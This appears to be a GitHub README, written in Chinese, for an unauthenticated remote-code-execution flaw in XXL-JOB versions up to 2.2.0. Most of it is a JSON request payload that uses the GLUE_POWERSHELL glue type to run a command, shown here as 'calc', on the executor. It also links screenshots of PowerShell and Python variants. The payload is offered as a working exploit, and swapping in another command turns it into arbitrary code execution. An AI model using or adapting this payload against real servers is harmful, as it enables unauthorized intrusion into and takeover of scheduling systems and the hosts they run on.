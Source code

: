 # xxl-job-rce

XXL-JOB是一个分布式任务调度平台，其核心设计目标是开发迅速、学习简单、轻量级、易扩展。
在xxl-job<= 2.2.0版本存在未授权命令执行

##payload:
{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_POWERSHELL",
  "glueSource": "calc",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}

![]https://github.com/mrknow001/xxl-job-rce/blob/main/xxl-job-powershell.png
![]https://github.com/mrknow001/xxl-job-rce/blob/main/xxl-job-python.png

